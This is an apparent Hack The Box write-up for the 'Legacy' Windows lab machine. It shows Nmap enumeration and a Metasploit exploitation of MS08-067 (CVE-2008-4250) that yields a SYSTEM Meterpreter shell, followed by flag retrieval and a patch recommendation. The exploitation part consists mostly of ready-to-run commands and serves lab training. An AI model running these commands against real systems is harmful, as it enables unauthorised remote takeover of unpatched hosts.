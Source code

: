 [Done](Done)
## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Exploits Used**:
    - [SMB](SMB) vulnerability: **MS08-067 (CVE-2008-4250)** — Remote Code Execution
- **Tools**:
    - [Nmap](https://nmap.org/)
    - [Metasploit](https://www.metasploit.com/)
    - [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)

---

## 🔍 Recon

### 📌 Add to `/etc/hosts`

```bash
echo "10.10.10.4 legacy.htb" | sudo tee -a /etc/hosts
```

### 🔎 Nmap Full TCP Scan

```bash
nmap -sC -sV -p- -Pn -T4 legacy.htb
```

### 🔐 Vulnerability Scan (Targeted SMB Ports)

```bash
nmap -p 135,139,445 -sT -A -O -sV -sC --script vuln -Pn -T4 legacy.htb
```

✅ **Findings**: Vulnerable to [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) – MS08-067 (Server Service Vulnerability)

---

## 💥 Exploitation

### 🚀 Launch Metasploit

```bash
msfconsole -q
```

### 🔍 Search for Exploit

```bash
search CVE-2008-4250
```

✅ Use: `exploit/windows/smb/ms08_067_netapi`

### 🛠️ Configure Payload

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.4
set LHOST tun0
run
```

---

## 🐚 Meterpreter Shell

### 🎉 Confirm Access

```bash
getuid
```

✅ Output: `NT AUTHORITY\SYSTEM`

### 📁 Navigate to Flags

```shell
cd "Documents and Settings/john/Desktop"
type user.txt

cd ../../Administrator/Desktop
type root.txt
```

---

## 🛡️ Mitigation

> **Patch Recommendation**:  
> Apply [Microsoft Security Bulletin MS08-067](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067) to fix the remote code execution vulnerability in the Server service. This update is **critical** for Windows XP, 2000, and 2003 systems.

---

## 🧠 Actions Learned from This Box

- Importance of **patching legacy systems** 🩹
- SMB port enumeration using Nmap
- Exploiting Windows vulnerabilities using **Metasploit**
- Using `Meterpreter` for privilege access and system exploration
- CVE identification and mitigation strategy 📚

---

## 🔗 References

- [NVD — CVE-2008–4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250)
- [MITRE — CVE-2008–4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250)
- [MS08-067 Microsoft Security Bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
